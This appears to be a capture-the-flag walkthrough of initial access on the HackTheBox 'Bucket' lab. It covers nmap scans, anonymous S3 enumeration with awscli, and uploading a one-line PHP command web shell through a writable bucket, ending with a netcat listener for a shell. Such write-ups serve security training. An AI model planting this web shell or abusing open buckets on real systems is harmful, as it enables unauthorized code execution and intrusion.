<h2>AWS lab on HackTheBox called ‘Bucket’</h2>

<h3>Initial Access:</h3>
Step 1: nmap -Pn 10.10.10.212 -p- --min-rate=5000|awk -F '/' '/open/ {print $1}'

Output returns open ports 22 and 80.

Step 2: Enumerate these open ports further with nmap: nmap -Pn 10.10.10.212 --min-rate=5000 -p 22,80 -sCV -oN nmap-htb-buckets 

Output returns:

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/651a96ff-1389-4e6a-8db0-786d0045cf75)

Step 3: Nmap output shows a domain name of bucket.htb.  Enter this into /etc/hosts file so that we can access this domain name: 10.10.10.212 bucket.htb

Step 4: Visit the site http://bucket.htb.  Looking over the source code on the site shows:

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/35ca4db5-919d-4916-923d-874e11e55532)

This shows a source at a subdomain of http://s3.bucket.htb.  

Enter this subdomain into /etc/hosts: 10.10.10.212 bucket.htb s3.bucket.htb

Step 5: The subdomain of s3.bucket.htb indicates that this is an aws s3 bucket.  Let’s check if we can list any s3 buckets with anonymous access using awscli: aws --no-sign-request s3 ls --endpoint-url http://s3.bucket.htb

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/f5597f92-9daf-4364-a5fe-649361cdc27d)

This return shows that there is a s3 bucket called ‘adserver’.

Step 6: List the ‘adserver’ s3 bucket: aws --no-sign-request s3 --endpoint-url http://s3.bucket.htb ls s3://adserver

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/92959525-b656-4c2b-85fe-47f5258346d7)

Download ‘index.html’ listed in the bucket: aws s3 --no-sign-request --endpoint-url http://s3.bucket.htb  cp s3://adserver/index.html .

Opening index.html confirms that this bucket is listing the website http://bucket.htb.  

Step 7: Check for more information on what we can do on this s3 bucket by running the ‘OPTIONS’ request method on the s3.bucket.htb endpoint:

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/f4bc41c8-224e-411d-a556-852ef6122026)

We see from this that we can use the ‘PUT’ request method which is used to upload files.  

Step 8: Upload a php command shell (<?php system($_GET[“cmd”]); ?>) to the bucket: aws s3 --no-sign-request --endpoint-url http://s3.bucket.htb cp /home/kali/Downloads/test.php s3://adserver/

Navigate to the uploaded file: http://bucket.htb/test.php?cmd=whoami

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/108b6033-cda6-431b-84af-d15f3514f864)

Step 9: Open up a netcat listener: nc -lvnp 4444

Next, upload a php webshell using the same command used in step 8.  Then navigate to the uploaded web shell to get a shell as user www-data.





